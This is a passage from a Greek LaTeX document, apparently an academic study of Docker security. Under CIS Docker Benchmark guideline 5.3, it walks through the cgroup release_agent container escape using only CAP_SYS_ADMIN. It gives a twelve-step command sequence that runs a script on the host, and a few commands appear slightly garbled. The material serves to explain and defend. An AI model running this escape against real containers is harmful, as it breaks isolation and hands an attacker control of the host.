 Το \textlatin{CIS Docker Benchmark} καλύπτει όλα αυτά τα προβλήματα σε μία
κατευθυντήρια γραμμή: 5.3 (Βεβαιωθείτε ότι οι δυνατότητες του πυρήνα του
\textlatin{Linux} είναι περιορισμένες εντός των κοντέινερς).

\subsubsection{\texttt{\textlatin{CAP\_SYS\_ADMIN}}}

Η απόδραση \textlatin{Docker} σύμφωνα με τον \textlatin{Felix Wilhelm}
\cite{Felix-Wilhem-Tweet} που χρησιμοποιήσαμε στην ενότητα 4.1.3 χρειάζεται να
εκτελείται σε προνομιακή λειτουργία για να πετύχει, αλλά μπορεί να
ξαναγραφτεί για να χρειάζεται μόνο το δικαίωμα \texttt{\textlatin{run mount}}
\cite{TrailOfBits-Docker-Escape}, το οποίο χορηγείται από την δυνατότητα
\texttt{\textlatin{CAP\_SYS\_ADMIN}}. \\

\texttt{\textlatin{1. (host)\$ docker run --rm -it --cap-add=CAP\_SYS\_ADMIN --security -opt apparmor=unconfined ubuntu /bin/bash}}

\texttt{\textlatin{2. (cont)\# mkdir /tmp/cgrp}}

\texttt{\textlatin{3. (cont)\# mount -t cgroup -o rdma cgroup /tmp/cgrp}}

\texttt{\textlatin{4. (cont)\# mkdir /tmp/cgrp/x}}

\texttt{\textlatin{5. (cont)\# echo 1 > /tmp/cgrp/x/notify\_on\_release}}

\texttt{\textlatin{6. (cont)\# host\_path=`sed -n 's/.*\textbackslash perdir=\textbackslash ([\^,]*\textbackslash).*/\textbackslash 1/p' /etc/mtab`}}

\texttt{\textlatin{7. (cont)\# echo "\$host\_path/cmd" > /tmp/cgrp/release\_agent}}

\texttt{\textlatin{8. (cont)\# echo '\#!/bin/sh' > /cmd}}

\texttt{\textlatin{9. (cont)\# echo "ps aux > \$host\_path/output" >> /cmd}}

\texttt{\textlatin{10. (cont)\# chmod a+x /cmd}}

\texttt{\textlatin{11. (cont)\# sh -c "echo \textbackslash \$\textbackslash \$ > /tmp/cgrp/x/cgroup.procs"1}}

\texttt{\textlatin{12. (cont)\# cat /output}} \\

Σε αντίθεση με πριν, αντί να βασιζόμαστε στη
παράμετρο \texttt{\textlatin{--privileged}} για να μας δώσει πρόσβαση εγγραφής
σε ένα \textlatin{cgroup}, πρέπει απλώς να κάνουμε \textlatin{mount} το δικό μας
\textlatin{cgroup}. Στη γραμμή 2 και γραμμή 3 ένα νέο \textlatin{cgroup} με
όνομα \textlatin{cgrp} δημιουργείται και προσαρτάται στο \textlatin{/tmp/cgrp}.
Τώρα έχουμε ένα \textlatin{cgroup} στο οποίο έχουμε επίσης πρόσβαση εγγραφής,
έτσι μπορούμε να εκτελέσουμε το ίδιο \textlatin{exploit} όπως στην ενότητα
4.1.3.

